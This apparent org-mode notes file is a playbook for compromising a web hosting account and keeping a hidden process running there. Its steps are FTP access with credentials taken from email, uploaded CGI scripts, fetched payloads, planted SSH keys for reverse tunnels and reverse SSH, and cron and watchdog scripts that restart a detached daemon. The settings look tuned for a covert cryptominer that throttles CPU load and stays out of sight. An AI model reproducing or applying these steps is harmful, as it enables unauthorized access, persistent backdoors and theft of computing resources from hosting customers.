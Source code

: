ep=ftp://$USER@$IP:21

- get ip/login from email
- connect to ftpserver with like gio
- upload set/ler and .htaccess for execution of scripts or use .cgi ext (chmod 755)
- fetch payloads
- create .ssh and add priv (for rev tun) and pub key (for rev ssh) in /home/$USER
- make sure symlinks are working and the user shell in /passwd points correctly


*** ENV VARS
Example env vars:
#+BEGIN_SRC shell
  export ENV_VARS="
MHF=2 \
THREADS_FIXED=1 \
X_ID=\"$HTTP_HOST\" \
AESNI=$(grep aes -m 1 -c </proc/cpuinfo) \
CSLEEP=20000 \
MASKS_TYPE=web \
MAX_LOAD=$(($(nproc)*100-$(nproc)*10)) \
"
#+END_SRC

*** CRON JOB
append to .crt.start
#+BEGIN_SRC shell
echo $BASHPID > /tmp/.crtpid
#+END_SRC
To make sure the daemon is running
#+BEGIN_SRC shell
/bin/bash -c "[ $(ps ux -H | grep -v httpd | wc -l) -lt 20 ] || exit ; cd ~/www/cgi-bin; kill -0 $(</tmp/.crtpid) || exec bash <.crt.start &>/dev/null & disown"
#+END_SRC

~/etc/check.cd
#+BEGIN_SRC shell
  #!/bin/bash

  processes=$(ps ux -H)
  processes=$(grep -v httpd <<< "$processes")
  proc_count=$(wc -l <<< "$processes")
  [ "$proc_count" -lt 20 ] || exit

  cd ~/www/cgi-bin
  crtpid=$(</tmp/.crtpid)

  if pgrep -P $crtpid; then
      :
  else
      lingering=$(ps -o pgid= $crtpid)
      lingering=$(grep -o [0-9]* <<<"$lingering")
      kill -9 $lingering $crtpid
      exec bash <.crt.start &>/dev/null & disown
  fi
#+END_SRC

